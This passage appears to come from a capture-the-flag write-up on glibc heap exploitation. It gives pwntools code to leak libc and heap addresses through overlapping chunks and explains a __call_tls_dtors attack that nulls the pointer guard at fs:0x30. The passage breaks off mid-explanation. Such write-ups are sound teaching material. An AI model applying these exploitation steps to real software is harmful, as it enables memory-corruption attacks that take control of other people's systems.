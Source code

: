 ### Stage 2: Leak libc address

So we just view() chunk 3, index 2 to get the address:

```python
alloc(0x4f8, b'1'*8)
view(2)
p.recvuntil(b'Chunk[2]: ')
libc_leak = u64(p.recv(8))
libc.address = libc_leak - 0x219ce0
infoaddr("Libc leak: " + hex(libc_leak))
infoaddr("Libc base: " + hex(libc.address))
```

### Stage 3: Leak heap address

To leak heap address, we will create another chunk (this chunk overlap chunk 2 above) within size of tcache and free this chunk. Due to safe linking, the linking address will be put to this chunk and we can again view chunk 2 to leak heap address:

```python
alloc(0x18, b'3'*8)
delete(3)
view(2)
p.recvuntil(b'Chunk[2]: ')
heap_leak = u64(p.recv(8))
heap = heap_leak << 12
infoaddr("Heap leak: " + hex(heap_leak))
infoaddr("Heap base: " + hex(heap))
```

### Stage 4: `__call_tls_dtors` attack

For this stage, we will do 2 things. The first one is to set null for the guard we have said above. The second thing is create a fake `tls_dtor_list` and when it demangles the address, because we have freed the guard, the address just simply rotate bit right and be the same when xorring with `0`.

How can we get the address of that guard? The address of that guard is stored in segment `fs` with offset `+0x30`, or `fs:0x30` as follows:

![address-of-guard.png](images/address-of-guard.png)

The 2 highlighted line are corresponding to the macro of `PTR_DEMANGLE`. We need to get the address of `fs` now but how? As we known, the original canary value is stored at `fs:0x28` so if we can find the address contains canary, we just need to subtract that address with `0x28` and we get the address for `fs`:
